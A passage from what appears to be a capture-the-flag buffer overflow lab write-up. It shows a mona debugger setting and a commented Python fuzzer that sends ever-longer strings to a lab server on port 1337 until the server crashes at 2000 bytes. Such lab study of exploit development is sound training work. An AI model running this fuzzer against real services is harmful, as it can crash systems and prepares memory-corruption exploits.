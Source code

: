 ```
!mona config -set workingfolder c:\mona\%p
```

This sets workingfolder for mona at `c:\mona\%p`. 
### Fuzzing

After this we need to create a Python fuzzer to send increasingly long strings to MACHINE_IP:1337 to see what length of a string will crash the server. I will include the `fuzzer.py` from the room and try to add my own comments to it:

```python3
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.167.75"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
    try:
        '''
        socket.STREAM creates a TCP socket, 
        while socket.AF_INET indicates IPv4 
        address family.
        Using with statement ensures that the
        socket will be properly closed when done.
        '''
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

Now let's run it and see what it does:

```
python3 fuzzer.py
```

The fuzzer crashed the server at __2000__ bytes. 
